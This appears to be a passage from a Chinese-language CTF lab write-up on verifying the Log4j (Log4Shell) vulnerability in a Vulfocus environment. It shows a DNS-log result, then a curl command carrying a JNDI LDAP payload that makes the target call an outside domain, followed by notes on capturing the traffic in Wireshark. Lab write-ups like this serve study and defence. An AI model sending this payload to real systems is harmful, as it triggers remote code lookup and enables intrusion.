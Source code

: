   - 记录显示该域名被解析为 IP 地址 `219.141.176.11`，位置在北京，时间为 `2025-03-05 15:33:23`，验证了 Log4j 漏洞的存在。
  ![1741160054827](image/record/1741160054827.png)

#### [方法二] 使用抓包工具
1. **漏洞利用**
先在受害者主机上抓包，然后使用 Wireshark 分析抓到的数据包。
用攻击者主机构造攻击指令
```bash
curl -G --data-urlencode "payload=${jndi:ldap://chloris.check4safe.top}" http://192.168.20.6:44515/hello -vv
```
![1741162286690](image/record/1741162286690.png)
抓包已经保存到 ``/home/kali/workspace/ctf-games/fofapro/vulfocus/capture.pcap``
![1741162087551](image/record/1741162087551.png)
可以看到 ``HTTP`` 请求包中包含恶意的 ``payload`` ，用于触发 ``Log4j 漏洞``